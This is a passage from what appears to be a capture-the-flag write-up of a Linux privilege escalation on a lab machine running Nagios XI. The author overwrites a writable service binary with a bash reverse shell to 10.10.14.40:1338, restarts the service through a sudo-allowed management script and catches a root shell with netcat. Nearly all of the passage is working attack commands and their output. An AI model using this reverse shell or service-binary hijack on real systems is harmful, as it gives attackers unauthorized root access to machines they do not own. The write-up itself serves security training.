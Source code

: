 When I run the script I found that this script provides start & stop service, and there is no built in commands.

I also noticed a file **/usr/local/nagios/bin/npcd** which is owned by user **nagios**, and can be modified.

So I modified the binary content in the file by modifying it with reverse shell code.

```
nagios@monitored:~$ rm /usr/local/nagios/bin/npcd
nagios@monitored:~$ nano /usr/local/nagios/bin/npcd
nagios@monitored:~$ chmod +x /usr/local/nagios/bin/npcd
nagios@monitored:/usr/local/nagios/bin$ cat /usr/local/nagios/bin/npcd
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.40/1338 0>&1
```

Now we want to stop the current running process.

```
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

Before we restart the service again, we should run netcat listener on another terminal.

```
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 1338
listening on [any] 1338 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.11.248] 57778
bash: cannot set terminal process group (33082): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/#
```

Hurray!!! Got the root access.

<figure><img src=".gitbook/assets/1VqLYs481X9kw_CTosgqlcg.webp" alt="" width="375"><figcaption><p><a href="https://www.buymeacoffee.com/b4tm4n">https://www.buymeacoffee.com/b4tm4n</a></p></figcaption></figure>
